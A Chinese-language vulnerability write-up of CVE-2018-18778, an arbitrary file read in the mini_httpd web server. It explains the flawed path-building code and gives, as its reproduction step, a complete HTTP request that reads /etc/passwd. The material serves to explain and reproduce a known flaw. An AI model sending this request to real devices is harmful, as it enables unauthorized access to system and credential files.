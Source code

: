 （CVE-2018-18778）Mini\_httpd 任意文件读取漏洞
==============================================

一、漏洞简介
------------

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

在mini\_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

    (void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );

见上述代码，分析如下：

-   当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
-   当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

二、漏洞影响
------------

三、复现过程
------------

发送请求是将Host置空，PATH的值是文件绝对路径：

    GET /etc/passwd HTTP/1.1
    Host: www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

成功读取文件：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-18778)Mini_httpd任意文件读取漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/mini\_httpd/CVE-2018-18778/
